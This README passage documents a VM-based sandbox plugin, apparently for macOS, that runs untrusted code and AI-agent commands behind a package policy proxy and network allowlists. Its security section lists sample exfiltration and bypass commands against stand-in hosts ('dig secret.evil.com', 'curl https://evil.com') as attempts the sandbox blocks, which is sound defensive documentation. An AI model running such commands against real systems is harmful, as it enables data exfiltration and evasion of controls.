   # NOT: PE32+ executable (EFI application)
   ```

2. **Kernel/rootfs mismatch**: Ensure kernel and rootfs are both arm64

3. **Insufficient resources**: Try increasing memory
   ```bash
   deputy exec --runtime plugin --plugin vz --memory 1g -- ...
   ```

### VM boots but command doesn't execute

Check that the rootfs contains the `deputy-init` script:
```bash
# Re-create rootfs with deputy-init (see step 3 above)
```

### No output from VM

Enable debug logging to see console output:
```bash
DEPUTY_LOG_LEVEL=debug deputy exec --runtime plugin --plugin vz -- echo hello
```

## Development

### Building from Source

```bash
cd examples/sandbox-plugins/vz
go mod tidy
go build -o deputy-sandbox-vz .

# Sign with virtualization entitlement (required)
codesign --entitlements entitlements.plist --sign - deputy-sandbox-vz
```

### Running Tests

```bash
go test -v ./...
```

### Protocol

The plugin implements the `SandboxRuntimeService` ConnectRPC interface:

```protobuf
service SandboxRuntimeService {
  rpc GetInfo(GetRuntimeInfoRequest) returns (GetRuntimeInfoResponse);
  rpc Execute(RuntimeExecuteRequest) returns (stream ExecuteEvent);
  rpc Cleanup(CleanupRequest) returns (CleanupResponse);
}
```

Communication happens over a Unix socket passed via `--socket` flag.

### Command Execution Protocol

> [!NOTE]
> **Protocol markers are trust-on-first-use.** The VM communicates results via text markers like `<<<DEPUTY_EXIT_CODE:0>>>` over virtio-console. A malicious guest can forge these markers to report false exit codes or inject fake output. The plugin parses these markers without cryptographic verification. This is acceptable because the hypervisor boundary is the security guarantee—we don't trust the guest, we contain it.

Commands are passed to the VM via kernel command line parameters:
1. Command and arguments are joined with spaces
2. The result is base64-encoded
3. Passed as `deputy.cmd=<base64>` kernel parameter

The `deputy-init` script inside the VM:
1. Reads `deputy.cmd` from `/proc/cmdline`
2. Base64 decodes and executes via `eval`
3. Outputs results with protocol markers:
   - `<<<DEPUTY_OUTPUT_START>>>` - marks beginning of output
   - `<<<DEPUTY_STDOUT>>>` - switches to stdout
   - `<<<DEPUTY_STDERR>>>` - switches to stderr
   - `<<<DEPUTY_OUTPUT_END>>>` - marks end of output
   - `<<<DEPUTY_EXIT_CODE:N>>>` - reports exit code

<details>
<summary>Historical: Alpine Linux Setup (Experimental)</summary>

> [!WARNING]
> Alpine Linux support is experimental. The Alpine virt kernel uses modular virtio drivers
> that require a compatible initrd to load. This can cause "No such device" errors when
> mounting the rootfs. Ubuntu is recommended instead.

### Alpine Setup (for reference only)

```bash
mkdir -p ~/.deputy/vz && cd ~/.deputy/vz

# Download Alpine virt ISO
curl -LO https://dl-cdn.alpinelinux.org/alpine/v3.19/releases/aarch64/alpine-virt-3.19.0-aarch64.iso

# Extract kernel and initramfs
bsdtar -xf alpine-virt-3.19.0-aarch64.iso boot/vmlinuz-virt boot/initramfs-virt
mv boot/vmlinuz-virt vmlinuz.efi
mv boot/initramfs-virt initrd.img
rmdir boot

# Extract the raw kernel from the EFI stub
OFFSET=$(xxd vmlinuz.efi | grep "1f8b 08" | head -1 | cut -d: -f1)
OFFSET_DEC=$((16#${OFFSET}))
dd if=vmlinuz.efi bs=1 skip=$OFFSET_DEC of=vmlinux.gz 2>/dev/null
gunzip -f vmlinux.gz 2>/dev/null || true
mv vmlinux vmlinuz

# Download minirootfs
curl -LO https://dl-cdn.alpinelinux.org/alpine/v3.19/releases/aarch64/alpine-minirootfs-3.19.0-aarch64.tar.gz

# Create rootfs with Docker
docker run --rm --privileged -v ~/.deputy/vz:/output alpine:3.19 sh -c '
  apk add --no-cache e2fsprogs
  dd if=/dev/zero of=/output/rootfs.img bs=1M count=256
  mkfs.ext4 -F /output/rootfs.img
  mkdir -p /mnt/rootfs
  mount -o loop /output/rootfs.img /mnt/rootfs
  tar -xzf /output/alpine-minirootfs-3.19.0-aarch64.tar.gz -C /mnt/rootfs
  mkdir -p /mnt/rootfs/{dev,proc,sys,tmp,run}
  umount /mnt/rootfs
'
```

**Known issues:**
- The Alpine virt kernel has virtio as a loadable module, not built-in
- The stock Alpine initrd expects specific boot parameters for module loading
- Mount errors like "No such device" occur when virtio_blk module isn't loaded

</details>

## Observability

The VZ plugin integrates with Deputy's OpenTelemetry infrastructure for **host-side observability**. This design principle keeps the guest minimal and defensible while providing full visibility into sandbox operations.

### Design Philosophy

**Guest-side:** Minimal footprint (~360 lines of shell script)
- No daemons or listening services
- No packet capture or introspection code
- Ephemeral: destroyed after each execution

**Host-side:** Full OTel integration
- Metrics: execution duration, exit codes, policy denials
- Logs: structured audit logging via slog
- Traces: distributed tracing with W3C TraceContext

### Available Metrics

When `DEPUTY_OTEL_ENABLED=true` and `OTEL_EXPORTER_OTLP_ENDPOINT` is set, Deputy records:

| Metric | Type | Description |
|--------|------|-------------|
| `deputy.sandbox.executions` | Counter | Total sandbox executions |
| `deputy.sandbox.execution.duration` | Histogram | Execution duration (seconds) |
| `deputy.sandbox.policy_denials` | Counter | Executions blocked by policy |
| `deputy.sandbox.files_changed` | Counter | Files added/modified/deleted (when available) |

**Attributes:**
- `deputy.sandbox.runtime`: Runtime type (e.g., `RUNTIME_PLUGIN`)
- `deputy.sandbox.plugin`: Plugin name (e.g., `vz`)
- `deputy.sandbox.network_mode`: Network mode (e.g., `NETWORK_MODE_ALLOWLIST`)
- `deputy.sandbox.workspace_isolation`: Isolation mode (e.g., `WORKSPACE_ISOLATION_OVERLAY`)
- `deputy.sandbox.exit_code`: Command exit code
- `status`: `success` or `error`

### Enabling Telemetry

```bash
# Enable OTel with OTLP exporter
export DEPUTY_OTEL_ENABLED=true
export OTEL_EXPORTER_OTLP_ENDPOINT=localhost:4317

# Run sandbox command
deputy exec --runtime plugin --plugin vz --network host -- go build ./...

# Metrics will be exported to your OTLP collector
```

### Audit Logging

Structured audit logs are emitted via slog for every sandbox execution:

```json
{
  "level": "INFO",
  "msg": "sandbox_audit",
  "event_type": "execution_completed",
  "execution_id": "sandbox-abc123",
  "runtime": "RUNTIME_PLUGIN",
  "command": "go",
  "exit_code": 0,
  "duration_ms": 1523
}
```

Enable JSON logs for production:
```bash
DEPUTY_LOG_FORMAT=json deputy exec --runtime plugin --plugin vz -- ...
```

### What's NOT Captured (By Design)

To maintain guest security, these are **not** implemented:
- Packet capture inside the VM
- DNS query logging in guest
- System call tracing
- File access auditing

For network-level observability, use the Deputy policy proxy on the host instead of guest-side inspection (see below).

## Policy Proxy Integration

The VZ plugin can optionally route package manager traffic through Deputy's policy proxy for **host-side policy enforcement**. This provides vulnerability scanning, license checks, and security policies without adding complexity to the guest VM.

### How It Works


```mermaid
sequenceDiagram
    participant VM as Alpine Linux VM
    participant Host as Host (macOS)
    participant Proxy as Deputy Proxy
    participant Registry as proxy.golang.org

    Note over VM: GOPROXY=http://host:port,direct

    VM->>Host: go get github.com/pkg@v1.0.0
    Host->>Proxy: Forward to Deputy proxy
    Proxy->>Proxy: Evaluate CEL policies<br/>(vulnerabilities, licenses, etc.)

    alt Policy Allows
        Proxy->>Registry: Fetch module
        Registry-->>Proxy: Module data
        Proxy-->>Host: Allow download
        Host-->>VM: Module data
    else Policy Denies
        Proxy-->>Host: 403 Forbidden<br/>X-Deputy-Reason: CVE-2024-...
        Host-->>VM: Download blocked
    end
```

### Setup

1. **Start the Deputy proxy** (in a separate terminal):

```bash
# Create a proxy configuration
cat > proxy.yaml << 'EOF'
listeners:
  - name: go-proxy
    bind: ":8080"
    ecosystems: ["go"]
    upstream: https://proxy.golang.org
    policies: ["policy/security.yaml"]
EOF

# Start the proxy
deputy proxy serve --config proxy.yaml
```

2. **Set the proxy environment variable**:

```bash
# Tell VZ plugin to route traffic through the proxy
export DEPUTY_VZ_PROXY=http://host.local:8080
```

3. **Run commands in the VM**:

```bash
# Go commands will be routed through Deputy proxy
deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --network host \
    -- go get github.com/example/pkg@latest
```

### Environment Variables

| Variable | Description | Example |
|----------|-------------|---------|
| `DEPUTY_VZ_PROXY` | Deputy proxy URL for package manager traffic | `http://192.168.64.1:8080` |
| `DEPUTY_VZ_STRICT_PROXY` | Enable strict mode: no `,direct` fallback, DNS blocked after boot | `true` |

### Supported Package Managers

The init script configures environment variables for common package managers:

| Package Manager | Environment Variable | Standard Mode | Strict Mode |
|-----------------|---------------------|---------------|-------------|
| Go | `GOPROXY` | `proxy,direct` (fallback allowed) | `proxy` only (no fallback) |
| Go | `GONOSUMDB` | (not set) | `*` (proxy handles checksums) |
| npm/yarn | `NPM_CONFIG_REGISTRY`, `YARN_REGISTRY` | Registry URL | Registry URL |
| pip | `PIP_INDEX_URL`, `PIP_TRUSTED_HOST` | PyPI simple index | PyPI simple index |
| curl/wget | `HTTP_PROXY`, `HTTPS_PROXY` | (not set) | Proxy URL (catches HTTP tools) |

### Example: Block Vulnerable Packages

```yaml
# policy/security.yaml
policies:
  - name: block-critical-vulns
    entrypoints: ["go_artifact_request"]
    rules:
      - action: deny
        when: vulnerabilities.exists(v, v.advisory.severity.level == severity.critical)
        reason: "Critical vulnerability detected"
        remediation: "Update to a patched version or use an alternative package"
```

### Network Considerations

When using the proxy:
- The proxy must be reachable from the VM (via NAT gateway at `192.168.64.1`)
- Use `host.local` or the actual host IP, not `localhost`
- The VM's network mode should be `host` (NAT) or `bridge`
- For air-gapped environments, pre-populate the proxy cache

### Combining with Network Allowlist

You can combine proxy integration with network allowlisting for defense-in-depth:

```bash
# Standard mode: proxy + allowlist (DNS still allowed)
export DEPUTY_VZ_PROXY=http://192.168.64.1:8080

deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --network allowlist \
    --network-allow "192.168.64.1:8080" \
    -- go build ./...
```

For maximum security, enable strict mode to also block DNS:

```bash
# Strict mode: proxy + allowlist + DNS blocking
export DEPUTY_VZ_PROXY=http://192.168.64.1:8080
export DEPUTY_VZ_STRICT_PROXY=true

deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --network allowlist \
    --network-allow "192.168.64.1:8080" \
    -- go build ./...
```

This ensures:
1. All package manager traffic goes through the Deputy proxy
2. The VM cannot bypass the proxy by connecting directly to registries
3. Policies are enforced at the host level (not bypassable from guest)
4. (Strict mode) DNS exfiltration is blocked - no `dig secret.evil.com` attacks

### Security Considerations

**The proxy alone is NOT a security boundary.** A compromised dependency with code execution in the guest can bypass the proxy. The VZ plugin provides multiple security levels to balance usability and security:

#### Security Levels

| Level | Configuration | Protection | Use Case |
|-------|--------------|------------|----------|
| **Basic** | `--network host` + `DEPUTY_VZ_PROXY` | Policy enforcement only | Development, trusted code |
| **Standard** | `--network allowlist` + `DEPUTY_VZ_PROXY` | Policy + egress filtering | CI/CD, moderate isolation |
| **Strict** | `--network allowlist` + `DEPUTY_VZ_PROXY` + `DEPUTY_VZ_STRICT_PROXY=true` | Policy + egress + DNS blocking | Production, untrusted code |
| **Maximum** | Strict + `--user nobody` | All above + privilege reduction | AI agents, untrusted code |

#### Attack Vectors by Security Level

| Attack Vector | Basic | Standard | Strict | Maximum |
|---------------|-------|----------|--------|---------|
| Unset `GOPROXY` env var | Vulnerable | Blocked | Blocked | Blocked |
| Direct `curl`/`wget` | Vulnerable | Blocked | Blocked | Blocked |
| DNS exfiltration | Vulnerable | Vulnerable | **Blocked** | Blocked |
| Rootfs modification | Vulnerable | Vulnerable | Vulnerable | **Blocked** |
| Privilege escalation | N/A | N/A | N/A | **Mitigated** |
| DHCP abuse | Vulnerable | Vulnerable | Vulnerable* | Vulnerable* |

*DHCP is required for VM networking; abuse is theoretically possible but impractical.

#### Strict Proxy Mode

Strict proxy mode (`DEPUTY_VZ_STRICT_PROXY=true`) provides the strongest security:


```mermaid
flowchart TB
    subgraph Boot["VM Boot (Strict Mode)"]
        direction TB
        B1["Start VM with NAT"]
        B2["DHCP assigns IP"]
        B3["DNS temporarily enabled"]
        B4["Resolve allowlist hostnames"]
        B5["Block DNS (nftables)"]
        B6["Configure proxy (no ,direct fallback)"]
        B1 --> B2 --> B3 --> B4 --> B5 --> B6
    end

    subgraph Runtime["Runtime (DNS Blocked)"]
        direction TB
        R1["go build ./..."]
        R2["GOPROXY=http://proxy (no fallback)"]
        R3["nftables: DNS port 53 BLOCKED"]
        R4["nftables: only proxy IP allowed"]
        R1 --> R2
        R2 --> R4
    end

    Boot --> Runtime

    subgraph Attack["Attack Attempts (Blocked)"]
        direction TB
        A1["unset GOPROXY<br/>go get evil.com"]
        A2["curl https://evil.com"]
        A3["dig secret.evil.com"]
        A1 -->|"nftables DROP"| blocked1["Blocked"]
        A2 -->|"nftables DROP"| blocked2["Blocked"]
        A3 -->|"DNS blocked"| blocked3["Blocked"]
    end

    style blocked1 fill:#c8e6c9,stroke:#2e7d32
    style blocked2 fill:#c8e6c9,stroke:#2e7d32
    style blocked3 fill:#c8e6c9,stroke:#2e7d32
```

**Strict mode features:**
- **No `,direct` fallback**: `GOPROXY` is set to proxy URL only (no direct registry access)
- **DNS blocked after boot**: Hostnames resolved at boot, then DNS (port 53) is blocked via nftables
- **HTTP_PROXY set**: Catches tools like `curl`, `wget` that respect HTTP_PROXY
- **GONOSUMDB=***: Proxy handles checksums (no direct sum.golang.org access)

**Strict mode usage:**

```bash
# Maximum security: strict proxy + allowlist
export DEPUTY_VZ_PROXY=http://192.168.64.1:8080
export DEPUTY_VZ_STRICT_PROXY=true

deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --network allowlist \
    --network-allow "192.168.64.1:8080" \
    -- go build ./...
```

#### Standard Mode (Recommended for CI/CD)

Standard mode provides good security without breaking legitimate DNS usage:

```bash
# Balanced security: proxy + allowlist (DNS allowed)
export DEPUTY_VZ_PROXY=http://192.168.64.1:8080

deputy exec --runtime plugin --plugin vz \
    --workspace . \
    --network allowlist \
    --network-allow "192.168.64.1:8080" \
    -- go build ./...
```

This blocks direct registry access but allows DNS queries. Sufficient for most CI/CD pipelines where the threat model is "prevent accidental vulnerable dependency installation" rather than "defend against sophisticated attacker with code execution."

#### Maximum Security Mode (Recommended for AI Agents)

Maximum security combines all protections: strict proxy + non-root execution:

```bash
# Maximum security: strict proxy + allowlist + non-root user
export DEPUTY_VZ_PROXY=http://192.168.64.1:8080
export DEPUTY_VZ_STRICT_PROXY=true

deputy exec --runtime plugin --plugin vz \
    --user nobody \
    --workspace . \
    --network allowlist \
    --network-allow "192.168.64.1:8080" \
    -- go build ./...
```

This is the recommended configuration for:
- **AI coding agents** (Claude, Codex) where the agent controls command execution
- **Untrusted code** from unknown sources
- **Production security-sensitive** workloads

#### Environment Variables

| Variable | Description | Default |
|----------|-------------|---------|
| `DEPUTY_VZ_PROXY` | Deputy proxy URL | (none) |
| `DEPUTY_VZ_STRICT_PROXY` | Enable strict proxy mode (`true`/`false`) | `false` |

> **Note:** Use `--user nobody` flag instead of environment variables for non-root execution. See [Non-Root Execution](#non-root-execution-defense-in-depth) section.

#### Remaining Attack Surface (Maximum Mode)

Even in maximum mode, some attack surface remains:

- **DHCP (ports 67/68)**: Required for VM networking. Abuse is theoretically possible but impractical.
- **Pre-boot window**: Brief window during boot before DNS is blocked. Mitigated by boot speed (~1.5s).
- **User namespace escape**: Unlikely in VZ VMs but theoretically possible kernel bugs.

**Defense-in-depth principle:** The proxy provides *policy enforcement* (block vulnerable packages). The network allowlist provides *isolation* (prevent bypass). Strict mode provides *exfiltration protection* (block DNS tunneling). Non-root execution provides *privilege reduction* (limit damage from code execution). Use all four together for AI agent workloads with untrusted code.

## References

- [vz library](https://github.com/Code-Hex/vz) - Go bindings for Virtualization.framework
- [Apple Virtualization.framework](https://developer.apple.com/documentation/virtualization)
- [apple/container](https://github.com/apple/container) - Apple's container runtime using the same framework
- [Ubuntu Cloud Images](https://cloud-images.ubuntu.com/) - Official ARM64 images
- [Deputy Sandbox Architecture](../../../docs/design/sandbox-architecture.md) - Design documentation
